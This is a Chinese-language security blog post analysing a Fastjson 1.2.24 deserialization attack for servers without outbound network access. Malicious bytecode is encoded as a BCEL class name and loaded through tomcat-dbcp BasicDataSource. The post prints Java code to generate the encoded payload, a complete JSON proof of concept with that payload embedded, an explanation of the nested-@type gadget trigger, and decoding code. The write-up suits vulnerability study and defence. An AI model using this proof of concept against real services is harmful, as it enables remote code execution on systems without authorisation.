






# FastJson不出网利用BCEL分析

## 前言

关于FastJson的漏洞分析之前也写过了，这次是针对一个场景进行分析，那就是FastJson不出网时的利用方法。当目标服务器没有外网时，就无法实现反弹shell连接外网攻击机，这个时候自然也无法使用JNDI注入，这个时候再想利用，就需要跳过从远程服务器中下载class文件的方式，能不能直接传入字节码。BCEL恰好就实现了这一点。

关于BCEL的发展历史和介绍可以参考：[BCEL ClassLoader去哪了](https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html#0x01-bcel)

BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。

> BCEL这个包中有个有趣的类`com.sun.org.apache.bcel.internal.util.ClassLoader`，他是一个ClassLoader，但是他重写了Java内置的`ClassLoader#loadClass()`方法。
>
> 在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode

## 环境搭建

pom文件的dependency内容如下：

```xml
<dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.tomcat/dbcp -->
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>dbcp</artifactId>
            <version>6.0.53</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp -->
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-dbcp</artifactId>
            <version>9.0.8</version>
        </dependency>
```

## 利用分析

首先来看生成BCEL字节码，

看P牛的文章了解到bcel包中ClassLoader类，它的方法中重写了`ClassLoader#loadClass()`方法

满足其条件，即可执行恶意代码



前面的if限制条件也要注意满足，才可以执行到这一步。如果`$$BCEL$$`后面有内容，那么就满足这个条件，进而会调用`createClass()`方法，最后去将字节码进行一个解码操作。



那么在构造静态的恶意代码时就可以先将class字节码进行encode

```java
package org.example.bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class BCEL_Class {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evilclass.class);
        String code = Utility.encode(javaClass.getBytes(),true);
        System.out.println("$$BCEL$$"+code);
//        Class.forName("$$BCEL$$" + code, true, new ClassLoader());
        new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();

    }
}
```



恶意类被加载，会执行。然后将加密后的字节码添加进POC，这里对POC进行执行验证

```java
package org.example.bcel;

import com.alibaba.fastjson.JSON;

public class BCEL {
    public static void main(String[] args) {
        String payload =
                "{\n" +
                        "    {\n" +
                        "        \"x\":{\n" +
                        "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                        "                \"driverClassLoader\": {\n" +
                        "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                        "                },\n" +
                        "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuQ$cbN$c2$40$U$3d$D$95B$zo$9f$88$PV$82$L$baq$87qcpc$7dD$M$ae$87qR$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1$b6$S016$99$7br$cf$dcs$e6$cc$f4$f3$eb$fd$D$c01j$Gt$ac$ZX$c7F$g$9b$Rn$e9$d8$d6Q$d1$b1$c3$90$3aQ$9e$KO$Z$92$f5F$97A$3b$f3$l$qC$deV$9e$bc$g$Pz2$b8$e3$3d$97$98$92$ed$L$eevy$a0$a2$7eNj$e1$a3$g1Tm$3fp$y9$e5$83$a1$x$ad$9e$90$ae$d5$9e$uW$b8$7c4j1$a4O$84$3b$3f$q$db$J$b9x$ba$e4$c3$d8$80b0$Y$j$7f$i$Iy$ae$o$c3$dcB$d7$ec$f3$J7$91FFG$d5$c4$$$f6$c8$88$S$88$a6$9cJ$T$fb8$60$uG3$96$cb$3d$c7jO$85$i$86$ca$f7$Y$w$ff$87a$u$y$r$d7$bd$be$U$nCqI$dd$8e$bdP$N$u$87$e1$c8p$d1$ac$d7$h$f6$9f$Z$ba$97FI$E$c3a$fd$d7n$t$M$94$e7$b4$7e$Ln$C_Hz$I$d4$90$a2$3f$R$7d$J$b0$e8fT$N$ea$yBF$b8r$f4$K6$8b$b7W$a9$a6b2$J$93$aa$f93$80$yr$84i$e4$X$e2$8b$d8$M$c8$bd$nQJ$be$40$bb$7f$86v1$8b$b9$M$e9V$c8$nr$cb$RF$9e$Z$8a$90$r$H3$3e$H$u$d0$d2$91$b0u$UA$a2RL$97$bf$B1K$v4$3d$C$A$A\"\n" +
                        "        }\n" +
                        "    }: \"x\"\n" +
                        "}";
        JSON.parse(payload);
    }
}
```

结果成功



调试过程利用链走向与普通的fastjson反序列化大差不差，只是需要注意这里的payload，

> poc可以分成两种，JSON.parseObject()与 parse()，因为parseObject() 会额外的将 Java 对象转为 JSONObject 对象，即调用 JSON.toJSON()，在处理过程中会调用所有的 setter 和 getter 方法，所以poc中少一步嵌套的操作

是嵌套了两层`@type`，也就两次触发`key.toString()`



需要触发 `BasicDataSource.getConnection()` 方法。由于FastJson中的 `JSON.parse()` 会识别并调用目标类的 setter 方法以及某些满足特定条件的 getter 方法，然而 `getConnection()` 并不符合特定条件，所以正常来说在 FastJson 反序列化的过程中并不会被调用。
这里的POC利用了 `JSONObject`对象的 `toString()` 方法实现了突破。JSONObject是Map的子类，在执行toString() 时会将当前类转为字符串形式，会提取类中所有的Field，自然会执行相应的 getter 、is等方法。所以在 `{"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……}` 这一整段外面再套一层{}，反序列化生成一个 `JSONObject` 对象并放在 `JSON Key` 的位置上，在 JSON 反序列化的时候，FastJson 会对 `JSON Key` 自动调用 `toString()` 方法。

而将POC中漏洞点换成`parseObject()`就不需要二次嵌套了。

## BCEL解码

```java
package org.example.bcel;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.FileOutputStream;
import java.io.IOException;

public class BCEL_Decode {
        public static void main(String[] args) throws IOException {
            String encode = "$l$8b$I$A$A$A$A$A$A$AuQ$cbN$c2$40$U$3d$D$95B$zo$9f$88$PV$82$L$baq$87qcpc$7dD$M$ae$87qR$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1$b6$S016$99$7br$cf$dcs$e6$cc$f4$f3$eb$fd$D$c01j$Gt$ac$ZX$c7F$g$9b$Rn$e9$d8$d6Q$d1$b1$c3$90$3aQ$9e$KO$Z$92$f5F$97A$3b$f3$l$qC$deV$9e$bc$g$Pz2$b8$e3$3d$97$98$92$ed$L$eevy$a0$a2$7eNj$e1$a3$g1Tm$3fp$y9$e5$83$a1$x$ad$9e$90$ae$d5$9e$uW$b8$7c4j1$a4O$84$3b$3f$q$db$J$b9x$ba$e4$c3$d8$80b0$Y$j$7f$i$Iy$ae$o$c3$dcB$d7$ec$f3$J7$91FFG$d5$c4$$$f6$c8$88$S$88$a6$9cJ$T$fb8$60$uG3$96$cb$3d$c7jO$85$i$86$ca$f7$Y$w$ff$87a$u$y$r$d7$bd$be$U$nCqI$dd$8e$bdP$N$u$87$e1$c8p$d1$ac$d7$h$f6$9f$Z$ba$97FI$E$c3a$fd$d7n$t$M$94$e7$b4$7e$Ln$C_Hz$I$d4$90$a2$3f$R$7d$J$b0$e8fT$N$ea$yBF$b8r$f4$K6$8b$b7W$a9$a6b2$J$93$aa$f93$80$yr$84i$e4$X$e2$8b$d8$M$c8$bd$nQJ$be$40$bb$7f$86v1$8b$b9$M$e9V$c8$nr$cb$RF$9e$Z$8a$90$r$H3$3e$H$u$d0$d2$91$b0u$UA$a2RL$97$bf$B1K$v4$3d$C$A$A";
            byte[] decode = Utility.decode(encode,true);
            FileOutputStream fileOutputStream = new FileOutputStream("Decode.class");
            fileOutputStream.write(decode);
        }
    }
```

将解码后的字节码写入Decode.class，在IDEA中直接打开即可看到恶意类的静态方法中的内容。



## 参考文章

https://forum.butian.net/share/2040	

https://blog.csdn.net/weixin_54648419/article/details/124513950

https://blog.csdn.net/weixin_54902210/article/details/125580519

https://blog.csdn.net/weixin_49248030/article/details/127989449

https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

https://xz.aliyun.com/t/12492